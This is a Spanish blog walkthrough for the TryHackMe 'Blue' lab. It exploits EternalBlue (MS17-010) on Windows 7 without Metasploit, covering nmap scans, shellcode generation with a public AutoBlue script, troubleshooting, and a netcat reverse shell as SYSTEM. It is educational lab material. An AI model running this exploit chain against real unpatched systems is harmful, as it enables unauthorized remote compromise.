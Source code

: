 ```yaml
---
layout: single
title: Máquina Blue - TryHackMe (Offensive Pentesting Path) - EternalBlue sin Metasploit
excerpt: "Siguiendo con el path Offensive Pentesting de TryHackMe, ahora nos toca comprometer la máquina Blue. Esto se realizará sin ayuda de Metasploit ejecutando el exploit EternalBlue de manera <<manual>>."
date: 2022-01-29
classes: wide
header:
  teaser: /assets/images/blue/portada.gif
  teaser_home_page: true
categories:
  - THM
  - Blog
tags:
  - Blog
  - Writeup
  - Guía
  - Walkthrough
---
```


# Aclaración inicial
La máquina se encuentra en la plataforma [TryHackMe](https://tryhackme.com/room/blue). Contrario a lo que nos indica la plataforma, esta guía será un **boot2root** con el objetivo de demostrar cómo explotar una vulnerabilidad **EternalBlue** sin ayuda de Metasploit. Eso quiere decir que no llevaremos a cabo las acciones post-explotación que solicita la máquina. El único propósito del sistema es el de fungir como playground para probar dicho exploit. Si buscas completar el room en TryHackMe, te recomiendo mejor seguir con el procedimiento que te indica la plataforma (con Metasploit).

¿Por qué? Durante la explotación del EternalBlue me encontré con varios fallos y errores que logré corregir, por lo que esta guía buscará además mostrar posibles fallos de ejecución que se pudieran presentar a la hora de explotar esta vulnerabilidad y cómo arreglarlos para continuar. En una entrada posterior intentaremos realizar la post-explotación que propone TryHackMe.

# Reconocimiento
La máquina es un Windows 7 de 64 bits. Nos lo indica la misma página de TryHackMe y podemos corroborarlo con una traza **ICMP**:

![1]

Por medio de un escaneo de puertos con nmap, detectamos aquellos que se encuentren activos con un estatus **open** en la máquina víctima:

	nmap --min-rate 5000 -p- --open -Pn -n 10.10.153.51 -oN portScan

![2]

Vemos que se encuentran habilitados varios servicios de Windows como el SMB y varios puertos típicos de Windows.

Si realizamos un escaneo más exhaustivo en busca de servicios y versiones específicas de dichos puertos, nos encontramos con la siguiente información:

![3]

Siempre que nos enfrentamos a un sistema Windows 7, debemos corroborar si es que existe la posibilidad de poder explotar la vulnerabilidad **EternalBlue**. Para ello, podemos hacer uso de scripts **vuln** y **safe** en un escaneo con nmap enfocado al puerto **SMB** (445).

	nmap --script "vuln and safe" -p445 10.10.153.51 -oN vulnScan

![4]

Vemos que es vulnerable al **MS17-010**, más conocido como **EternalBlue**, por lo que procedemos a explotar esta vulnerabilidad.

# EternalBlue
Para explotar esta vulnerabilidad, podemos emplear este [repositorio](https://github.com/lokendrasinghrawat/AutoBlue-MS17-010). Lo descargamos por medio de un **git clone**.

![5]

Este exploit tiene dos fases para ejecutarlo:

1. Crear los shellcodes necesarios para Windows.
2. Ejecutar el exploit con dicho shellcode.

# Creación de los shellcodes
Aquí es donde inicia el proceso de explotación y donde podríamos encontrar varios errores. El script requiere de un shellcode que pueda ser empleado tanto para sistemas de 32 bits como de 64 bits, y para ello, el repositorio incluye una herramienta para crearlos automáticamente llamado **shell_prep.sh**. Este nos permitirá, además, añadir al shellcode nuestro reverse shell con el cual ganaremos acceso al sistema.

Para ejecutarlo, debemos ir al directorio **shellcode** y ejecutar el binario **shell_prep.sh**

	./shell_prep.sh
	
![6]

**Nota:** Como podemos observar en la imágen anterior, podríamos encontrarnos con un error que dice **"line 13: nasm: command not found"**. Si este es el caso, lo mejor es finalizar el programa con CTRL+C ya que no tiene sentido continuar. Para arreglarlo, solo debemos instalar el comando faltante:

	apt install nasm
	
![7]

Una vez instalado, volvemos a ejecutar el **shell_prep.sh** y veremos que dicho error ya no aparece; si este es el caso, podemos continuar.

![8]

Para crear los shellcodes con una reverse shell que podamos recibir con ayuda de netcat, deberemos dar los siguientes parámetros:

	- would you like to auto generate a reverse shell with msfvenom (Y/n)
	Y
	- LHOST for reverse connection:
	TU IP DONDE RECIBIRÁS LA REVERSE SHELL
	- LPORT you want x64 to listen on:
	PUERTO DONDE ESTARÁS A LA ESCUCHA
	- LPORT you want x86 to listen on:
	PUERTO DONDE ESTARAS A LA ESCUCHA (DADO QUE EL SISTEMA ES UN WINDOWS DE 64 BITS, ESTA OPCIÓN NO ES NECESARIA; SIN EMBARGO, NO PUEDE SER EL MISMO PUERTO QUE EL ANTERIOR)
	- Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
	1 (COMO ESTA GUÍA SE BASA EN NO USAR METASPLOIT, NO QUEREMOS RECIBIR UNA REVERSE SHELL CON AYUDA DE METERPRETER)
	- Type 0 to generate a staged payload or 1 to generate a stageless payload:
	1 (STAGED ES PARA UNA REVERSE SHELL RECIBIDA CON METERPRETER; PARA RECIBIRLA CON NETCAT, DEBEMOS SELECCIONAR LA STAGELESS PAYLOAD).
	
![9]

Al finalizar la generación de los shellcodes, los unirá en uno solo un script llamado **eternalblue_sc_merge.py**, sin embargo, puede dar un error al finalizar que dice: **TypeError: must be str, not bytes**. Esto se debe a que el exploit está diseñado para ser usado con Python versión 2; si nuestro sistema Linux está configurado para emplear Python versión 3 por defecto al escribir en la línea de comandos **python**, entonces nos encontraremos con este error.

![10]

Para corregirlo, debemos modificar el script **shell_prep.sh**, específicamente en la línea 96; tenemos que cambiar el comando **python** por **python2** para que al ser ejecutado, este tire por Python versión 2.

![11]

Con esta corrección, volvemos a ejecutar el script con los mismos parámetros de antes. Veremos que al finalizar no nos lanza ningún error.

![12]

Ya tenemos todo listo, ahora solo nos resta ejecutar el exploit contra la máquina. Para ello, nos dirigimos al directorio principal del repositorio y ejecutamos el siguiente comando:

	python2 eternalblue_exploit7.py 10.10.113.175 shellcode/sc_all.bin
	
Debemos cuidar de colocar **python2** para que emplee dicha versión del lenguaje, además de ver que el script seleccionado sea el que tiene una terminación **7** (ya que se trata del script creado para los sistemas Windows 7). El último parámetro es la ubicación del shellcode creado anteriormente.

![13]

Como podemos ver, nos podemos llegar a encontrar con otro error (al menos el último con el que me pude topar), diciendo que no tenemos instalada la biblioteca **impacket**. Esto es normal, dado que esta biblioteca está instalada por defecto en la versión 3 de Python, pero no en la 2. Simplemente deberemos instalarla con el siguiente comando:

	python2 -m pip install impacket
	
![14]

Ahora sí, ya con la biblioteca instalada, podemos ejecutar nuevamente el script (sin olvidar ponernos en escucha con netcat en el puerto que hayamos especificado al momento de crear los shellcodes).

Obtendremos la siguiente salida:

![15]

# Acceso al sistema
Al haber ejecutado el script, veremos que recibimos una reverse shell desde netcat; de esta forma, ya tenemos acceso al sistema y no solo eso, sino que el acceso se ha ganado como un usuario privilegiado **NT AUTHORITY/SYSTEM**.

![16]

Nota Final: EternalBlue es un exploit bastante potente que puede llegar a tirar el servidor donde se haya ejecutado. Si no llegas a obtener una reverse shell, lo mejor es reiniciar la máquina víctima y repetir todo el procedimiento de creación de shellcodes y explotación.

[1]:/assets/images/blue/1.png
[2]:/assets/images/blue/2.png
[3]:/assets/images/blue/3.png
[4]:/assets/images/blue/4.png
[5]:/assets/images/blue/5.png
[6]:/assets/images/blue/6.png
[7]:/assets/images/blue/7.png
[8]:/assets/images/blue/8.png
[9]:/assets/images/blue/9.png
[10]:/assets/images/blue/10.png
[11]:/assets/images/blue/11.png
[12]:/assets/images/blue/12.png
[13]:/assets/images/blue/13.png
[14]:/assets/images/blue/14.png
[15]:/assets/images/blue/15.png
[16]:/assets/images/blue/16.png